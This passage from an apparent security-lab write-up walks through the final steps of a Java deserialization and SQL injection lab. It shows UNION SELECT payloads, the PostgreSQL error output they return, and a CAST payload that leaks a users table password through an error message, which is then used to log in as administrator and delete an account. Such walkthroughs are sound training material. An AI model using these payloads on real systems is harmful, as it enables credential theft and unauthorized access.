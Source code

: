 6. Determine the data type of the columns. Columns `4`, `5`, and `6` do not expect values of type `string`. Columns `4` and `5` are `integers`:

```text
SELECT * FROM products WHERE id = ' UNION SELECT NULL,NULL,NULL,'a',NULL,NULL,NULL,NULL--

<p class=is-warning>java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type integer: &quot;a&quot;
Position: 100</p>

SELECT * FROM products WHERE id = ' UNION SELECT NULL,NULL,NULL,NULL,'a',NULL,NULL,NULL--

<p class=is-warning>java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type integer: &quot;a&quot;
Position: 105</p>

SELECT * FROM products WHERE id = ' UNION SELECT NULL,NULL,NULL,NULL,NULL,'a',NULL,NULL--

<p class=is-warning>java.lang.ClassCastException: Cannot cast data.productcatalog.ProductTemplate to lab.actions.common.serializable.AccessTokenUser</p>
```

7. List the contents of the database and identify that there is a table called `users` with a column called password.
8. Use a suitable SQL injection payload to extract the password from the users table. For example, the following payload will trigger an exception that displays the password in the error message:

```text
' UNION SELECT NULL, NULL, NULL, CAST(password AS numeric), NULL, NULL, NULL, NULL FROM users--
```

![Serialisation](/_static/images/ser7.png)
    
9. To solve the lab, log in as administrator using the extracted password, open the admin panel, and delete Carlos's account.

![Serialisation](/_static/images/ser8.png)

## Exploitability

An attacker will need to log in; gain access to the source code and use it to construct a gadget chain to obtain the administrator's password; and then, log in as the administrator and delete Carlos's account. 
